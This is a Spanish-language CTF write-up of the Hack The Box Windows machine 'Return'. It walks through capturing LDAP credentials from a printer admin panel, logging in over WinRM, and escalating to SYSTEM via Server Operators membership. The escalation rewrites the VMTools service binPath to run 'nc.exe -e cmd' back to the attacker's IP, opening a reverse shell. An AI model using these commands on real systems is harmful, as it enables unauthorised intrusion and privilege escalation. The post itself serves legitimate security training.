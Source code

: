 ```yaml
---
title: 'CTF - Return WriteUp'
date: '2022-02-11'
tags: ["CTF", "Windows", "ServerOperatorGroupAbusing", "ServiceConfigurationManipulation", "#Import 2022-12-20 21:06"]
draft: false
authors: ['default']
summary: '![](/static/images/uploads/ctf-return/return.webp)'
---
```


![](/static/images/uploads/ctf-return/return.webp)

Estamos ante una máquina **Windows**. Esto es algo que deducimos una vez hacemos un Ping para comprobar la conexión que tenemos con ella.


```
❯ ping 10.10.11.108 -c 1
PING 10.10.11.108 (10.10.11.108) 56(124) bytes of data.
64 bytes from 10.10.11.108: icmp_seq=1 ttl=127 time=43.2 ms
```
En la traza ICMP observamos que el TTL es de 127. Las maquinas Windows, en general, tienen un TTL configurado de 128 mientras que las máquinas Linux suelen tener un TTL de 64. En este caso, hasta llegar a la máquina pasamos por un nodo intermediario y por eso el TLL se descuenta en 1 unidad.

Tras un primer escaneo de puertos con NMAP, aparecen muchos de ellos abiertos. Además, en Windows este tipo de escaneos se suele demorar un poco más. Una vez escaneados los puertos abiertos con TCP Syn Scan, trato de sacar el máximo de información posible utilizando scripts básicos de reconocimiento de NMAP, para ver que información nos facilita.


```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49674,49675,49679,49682,49694,59851 -sCV -v 10.10.11.108 -oN targeted
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
135/tcp   open  msrpc         Microsoft Windows RPC
...
```
Hay un portal web abierto en el puerto 80 y parece un panel de administración de impresoras. Navegando un poco por la plataforma, veo un formulario de registro.

En estos casos donde el formulario te permite introducir una IP, una buena prueba es ponerte en escucha para ver que información te envía el servidor.

![](/static/images/uploads/ctf-return/image-7.webp)

Cambio la dirección IP a mi equipo y me pongo en escucha en el mismo puerto con netcat.


```
❯ nc -lvp 389
listening on [any] 389 ...
10.10.11.108: inverse host lookup failed: Unknown host
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.108] 59872
0*`%return\svc-printer�
                       1edFg43012!!
```
Parece una contraseña. Me la guardo junto con el usuario *return\svc-printer*.

Además, recuerdo que el puerto RPC estaba abierto. Podría probar a conectarme con [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).


```
❯ evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents whoami
return\svc-printer
```
Y listo. Obtenemos la primera flag.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents cat ../desktop/user.txt
6df0ae750542xxxxxxxxxxxxxxxxxxx 
```
El siguiente paso es buscar un método que nos permita escalar privilegios de Administrator. En este punto, un buen comienzo es enumerar los privilegios que dispone el usuario actual.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
[SeLoadDriverPrivilege](https://www.tarlogic.com/es/blog/explotacion-de-la-directiva-cargar-y-descargar-controladores-de-dispositivo-seloaddriverprivilege/) tiene vulnerabilidades conocidas que se podrían explotar, pero voy a continuar buscando información sobre los grupos a los que pertenezco.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop net user svc-printer
...
Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```
Confirmamos que estamos en el grupo de *Remote Management Use* (por eso podemos conectarnos con WinRM) y además pertenezco a otros grupos. Me parece interesante *Server Operators* porque tal y como se visualiza en la web de [Microsoft](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators), vemos que tiene capacidad de parar y ejecutar servicios.

Esto es una vulnerabilidad que se puede explotar porque los servicios son capaces de ejecutar binarios en su arranque. De esta forma, sería interesante configurar un servicio que ejecutase *nc.exe* con el fin de entablar una reverse shell a mi máquina atacante.

Lo primero es traer a la máquina Windows el binario *nc.exe*.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop upload /home/iocio/Desktop/iocio/HTB/Return/content/nc.exe
```
Y trato de crear el nuevo servicio de Windows.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe create reverse binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] OpenSCManager FAILED 5:
Access is denied.
```
Parece que por alguna razón no podemos crear servicios. Vamos a intentar cambiar uno existente. Para ello, enumeramos aquellos que ya hay en ejecución.


```
*Evil-WinRM* PS C:\Users\svc-printer\documents services
Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc
```
Tras probar a cambiar varios y ver que no me permite modificarlos, doy con uno que sí.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.21 443"
[SC] ChangeServiceConfig SUCCESS
```
A continuación, pongo en mi máquina netcat en escucha, paro el servicio y lo vuelvo a arrancar.


```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe stop VMTools
*Evil-WinRM* PS C:\Users\svc-printer\Desktop sc.exe start VMTools
```
Recibimos la consola por el otro lado.


```
C:\Windows\system32whoami  
nt authority\system
C:\Windows\system32type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
f8fexxxxxxxxxxxxxxxxxxxxxxx
```
Obtenemos la flag y terminamos la máquina.

